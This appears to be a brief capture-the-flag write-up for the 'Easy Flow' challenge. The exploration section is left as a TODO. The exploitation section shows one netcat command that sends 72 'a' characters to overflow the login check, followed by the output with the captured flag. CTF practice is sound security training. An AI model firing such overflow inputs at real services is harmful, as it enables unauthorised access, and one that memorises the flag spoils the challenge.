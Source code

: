 **Name**: Easy Flow  
**Points**: 70  
**Instructions**: The [easyflow](https://challenges.runesec.com/static/389a997f7f4e0fd6f51b72d6bac1401c/easyflow) service is running at challenges.runesec.com:54791. Login to get the flag  
**Hint**: Do you really need the password?  

## Exploration
// TODO

## Exploitation
```
$ echo `printf 'a%.0s' {1..72}` | nc challenges.runesec.com 54791
Enter the password! 
Checking password...

Good job!
flag{8988aae2bef1b063701f703ea3059928}
```